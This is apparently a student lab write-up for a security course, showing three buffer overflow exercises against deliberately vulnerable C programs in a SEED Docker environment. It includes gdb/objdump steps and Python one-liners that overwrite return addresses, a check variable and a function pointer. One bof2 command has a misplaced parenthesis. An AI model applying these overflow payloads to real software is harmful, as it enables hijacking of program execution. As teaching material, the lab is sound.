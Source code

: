 # Lab#1 Conduct buffer overflow attack .
## Prepared the eviroment .
  1. Open your Docker Destop
  2. Choice the folder contain file lab and open Terminal
     
      ```bash
      git clone https://github.com/quang-ute/myprojects
      ```
      and after that:
     ```bash
     cd myprojects
     ```
  3. Build the image `img4lab` by Docker
     ```bash
     docker build -t img4lab .
     ```
     and run docker container
     ```bash
      docker run -it --privileged -v $HOME/seclabs:/home/seed/seed@ img4lab
     ```
  4. On `seed@...`
     ```
     cd seclabs
     ```
     create a new direction named `bof`
     ```bash
     mkdir bof
     ```
     and after that:
     ```bash
     cd bof
     ```
     and Open you VSCode -> Connect to WSL -> Open folder `bof`  and catch file bof1, bof2, bof3 from `https://github.com/quang-ute/Security-labs/tree/main/Software/buffer-overflow`
## Attack ( BOF 1 )
![image](https://github.com/user-attachments/assets/3ca0dd01-c5b1-4abd-adcb-757f64f60c0d)

If an attacker supplies more input than the buffer array[200] can handle, they could potentially control the flow of the program and execute unintended code.

1. On `/seclabs/bof$`
   ```bash
   gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2
   ```
   and load bof1.out in gdb
  
    ```bash
    gdb bof1.out
    ```
  2. Use the disassemble command to display the assembly code
     ```bash
     disas secretFunc
     ```
     ![image](https://github.com/user-attachments/assets/7ee1e5e0-441a-4a39-9a40-bb98f3545acc)
  
  The secretFunc() memory region is `0x0804846b`
  
  3. Input 'a'*204 followed by `0x0804846b`
     ```bash
     echo $( python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out
     ```
       ![image](https://github.com/user-attachments/assets/a93df09c-aaec-4d0d-8bb4-f96f3cb402b4)
     To remove the Missing arguments line, add any value at the end of your command

     ```bash
     echo $( python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out 120
     ```

     
     ![image](https://github.com/user-attachments/assets/3074ef1f-1809-45df-b5aa-61ef31dffcff)

  ## Attack ( BOF 2 )
  
  ![image](https://github.com/user-attachments/assets/fddde23e-e6fd-4c80-bddd-f2250f004701)

> Since buf is only 40 characters in size, but fgets allows input of up to 45 characters, this can overwrite the memory after the buf array, including the check variable. If you enter enough data to overwrite the value of check, you can change it to 0xdeadbeef, leading to the condition being satisfied and printing the winning message.

1.  On `/seclabs/bof$`
2.  
   ```bash
   gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2
   ```
  
2. 

```bash
 echo $(python -c "print('a'*40)" + '\x01\x02\x03\x04' ) | ./bof2.out
```

Terminal will be return  `You are on the right way!`
![image](https://github.com/user-attachments/assets/83deaff6-f75f-46f9-8fdf-8dce2ad89d7a)


If you want to print `Yeah! You win!`
```bash
echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde' )") | ./bof2.out
```
![image](https://github.com/user-attachments/assets/57848a21-9021-4c9c-994a-555c01043102)


 ## Attack ( BOF 3 )    

![image](https://github.com/user-attachments/assets/fef81261-6a29-4df0-974b-91f41cddffb1)



 
The first of all, you have to run 
```bash
objdump -d bof3.out | grep shell
```


 ![image](https://github.com/user-attachments/assets/2298c0b9-23b6-4bd3-b4fb-31c653e51de7)

you can see the address of  `<shell>` is `0804845b`  and after that:

```bash
echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out
```
![image](https://github.com/user-attachments/assets/8425fba6-cc53-4a19-8ddf-f43020f89baa)

Buffer overflow occurs when too much data is entered into the buf. Since fgets allows up to 133 characters to be input (more than the size of buf), the excess data can overwrite the function pointer func. If an attacker knows the address of the shell() function and overwrites the func pointer with this address, the shell() function will be called instead of sup().


